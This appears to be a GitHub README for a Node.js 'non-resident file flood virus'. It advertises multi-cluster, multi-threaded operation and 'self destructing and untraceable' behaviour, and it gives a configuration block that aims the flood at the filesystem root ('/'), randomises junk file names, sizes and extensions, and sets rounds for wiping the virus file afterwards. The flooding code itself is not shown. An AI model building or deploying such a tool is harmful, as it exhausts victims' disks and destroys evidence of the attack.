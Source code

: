 # nodejs-virus-non-resident-file-flooder
#### non-resident file flood virus

* multi cluster support
* multiple async threads per cluster
* self destructing and untraceable

```js
const config = {
  dest: '/', // file flood base path
  clusters: 1, // clusters
  threads: 1, // async threads per cluster
  pad_size: 1024, // random data pad size max
  file: {
    max_file_size: 512, // random data file size max
    max_name_size: 16, // random filename max length
    ext: ['', 'txt', 'css'] // random file extensions
  },
  alpha: 'abcdefghijklmnopqrstuvwxyz', // random filename alphabet (uppercase added automatically)
  special: '1234567890', // random filename special chars/numbers
  wipe: {
    rounds: 10, // virus file wipe random data write rounds
    delay: 3000 // virus file wipe delay
  }
}

```
